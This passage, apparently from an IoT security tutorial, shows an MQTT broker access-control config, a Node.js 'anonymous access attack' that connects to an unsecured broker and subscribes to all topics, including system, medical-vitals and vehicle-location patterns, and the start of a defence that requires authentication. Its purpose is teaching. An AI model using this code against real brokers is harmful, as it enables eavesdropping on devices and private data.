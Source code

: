 # Device-specific permissions
user device_sensor_001
topic readwrite devices/sensor_001/+
topic read devices/sensor_001/status

user admin_user
topic readwrite company/admin/#
topic read $SYS/broker/+

# User-specific permissions  
pattern read users/%u/notifications
pattern write users/%u/commands
`;
```

### MQTT Anonymous Access Attack
Attack Implementation:
```
// Anonymous connection to unsecured broker
const client = mqtt.connect('mqtt://vulnerable-iot-broker.com:1883');

client.on('connect', () => {
    console.log('Anonymous access granted!');
    
    // Discover all active topics
    client.subscribe('#'); // Subscribe to everything
    
    // Enumerate system topics
    client.subscribe('$SYS/#');
    
    // Try common IoT device patterns
    const commonTopics = [
        'home/+/temperature',
        'factory/+/sensors/#',
        'building/+/hvac/control',
        'vehicle/+/location',
        'medical/+/vitals'
    ];
    
    commonTopics.forEach(topic => {
        client.subscribe(topic);
    });
});
```
Defense Implementation:
```
// Secure MQTT broker setup
const aedes = require('aedes')();
const server = require('net').createServer(aedes.handle);

// Authentication handler
aedes.authenticate = (client, username, password, callback) => {
    if (!username || !password) {
        const error = new Error('Authentication required');
        error.returnCode = 4;
        return callback(error, null);
    }
    